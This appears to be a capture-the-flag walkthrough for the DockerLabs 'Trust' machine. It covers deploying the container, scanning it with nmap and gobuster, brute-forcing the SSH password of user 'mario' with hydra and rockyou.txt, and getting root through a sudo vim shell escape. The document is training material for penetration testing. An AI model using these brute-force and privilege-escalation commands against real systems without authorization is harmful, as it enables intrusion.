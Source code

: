 # Trust

{% embed url="https://dockerlabs.es/#/" %}

[🔗 DockerLabs.es](https://dockerlabs.es/#/)

&#x20;[🔗](https://dockerlabs.es/#/) [How to setup a Docker Image ](https://dockerlabs.es/assets/instrucciones\_de\_uso.pdf)

<details>

<summary>CTF BootToRoot</summary>

A **CTF** (Capture The Flag) **Boot To Root** (B2R) is a type of cybersecurity challenge where participants are tasked with gaining unauthorized access to a computer system (the "Boot" part) and then obtaining and eventually capturing a specific flag or set of flags (the "Root" part). The flags could be strings of text, files, or other data that prove the participant has successfully compromised the system.

In these challenges, participants typically start with minimal information about the target system and have to use various techniques, including vulnerability analysis, exploitation, privilege escalation, and more, to gain access and ultimately root access to the system. The challenges often simulate real-world scenarios and are designed to test participants' skills in penetration testing, exploit development, reverse engineering, and other cybersecurity domains. They can be hosted online or in-person as part of cybersecurity competitions, training events, or educational exercises.

</details>

## Task 1 - Deploy the machine

Install docker.io (if you do not already have it installed) -> `sudo apt install docker.io`

Download machine from DockerLabs website and setup lab:

* `unzip trust.zip`
* `sudo bash auto_deploy.sh trust.tar`

<div align="left">

<figure><img src="../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

</div>

and we obtained IP machine -> 🎯 Target IP: `172.17.0.2`

We can put the IP in the file to associate it with an easier to remember name:

<pre class="language-bash"><code class="lang-bash">su
<strong>echo "172.17.0.2 trust" >> /etc/hosts
</strong></code></pre>

Create a directory for machine on a dedicated folder and subdir containing: nmap,content,exploits,scripts

<pre class="language-bash"><code class="lang-bash"><strong>mkdir -p DockerLabs/trust
</strong>cd DockerLabs/trust
<strong>mkdir {nmap,content,exploits,scripts}
</strong><strong>
</strong># At the end of the Lab
CTRL + C #To stop running machine

<strong>sed -i '$ d' /etc/hosts # To clean up the last line from the /etc/hosts file
</strong><strong>
</strong># To repair potential problem during activities
sudo systemctl restart docker
sudo docker stop $(docker ps -q)
sudo docker container prune -force
</code></pre>

## Task 2 - Reconnaissance and Exploitation

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 trust
PING trust (172.17.0.2) 56(84) bytes of data.
64 bytes from trust (172.17.0.2): icmp_seq=1 ttl=64 time=0.052 ms
64 bytes from trust (172.17.0.2): icmp_seq=2 ttl=64 time=0.077 ms
64 bytes from trust (172.17.0.2): icmp_seq=3 ttl=64 time=0.048 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system, while Windows systems usually have a TTL of 128 secs.

### 2.1 Ports in listening and relative services

Of course, we start looking for information about our target by scanning the open ports with the nmap tool

```bash
nmap -Pn -n -p0- trust
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

There're two open port (22, 80), analyze them searching more info about services version and potential vulns:

```bash
nmap -A -sVC -p 22,80 trust -oN nmap/port_scan
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 4.15 - 5.8 (96%), Linux 2.6.32 - 3.10 (96%), Linux 5.0 - 5.5 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>Pn</td><td>no ping</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

As always we begin our exploration from port 80, where we know there is a web server, so we execute the whatweb command to extract more information and then view the content using the browser

```bash
whatweb http://trust
```

<figure><img src="../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (236).png" alt=""><figcaption></figcaption></figure>

Let's display the default Apache page, try analysing the source page with CTRL+U

<figure><img src="../.gitbook/assets/image (240).png" alt=""><figcaption></figcaption></figure>

But we don't discover nothing of interisting.

### 2.2 Brute force hidden web directory

Now, we try to find potential hidden directory using gobuster:

```bash
gobuster dir -u http://trust -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (242).png" alt=""><figcaption></figcaption></figure>

We only find a useless 403 status code, so we try inserting web extensions (html, xml and php) with the -x flag:

```
gobuster dir -u http://trust -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x html,xml,php)
```

<figure><img src="../.gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>

and finally we obtain two status code 200, the index.html is the homepage (that we just know), therefore we go to the secret.php

<figure><img src="../.gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>

We find as info a potential username, remembering that port 22 (SSH) is open, not knowing the password we could try a brute force attack with hydra

### 2.3 Brute force ssh credentials

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt trust ssh
```

<figure><img src="../.gitbook/assets/image (245).png" alt=""><figcaption></figcaption></figure>

Fantastic, we discovered the password, we use it to log in via SSH with the following command: `ssh mario@trust`

<figure><img src="../.gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>

## Task 3 - Privilege Escalation

Now that we are inside, since we are not root user we need to elevate our privileges, so let's check the current permissions using `sudo -l`

<figure><img src="../.gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>

We see that mario user has root permissions for /usr/bin/vim, then we can use [gtfobins](https://gtfobins.github.io/gtfobins/vim/) to find it.

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

<figure><img src="../.gitbook/assets/image (248).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/vim/">https://gtfobins.github.io/gtfobins/vim/</a></p></figcaption></figure>

using vim sudo command, we obtain a root permission `sudo vim -c ':!/bin/sh'`

<div align="left">

<figure><img src="../.gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

</div>
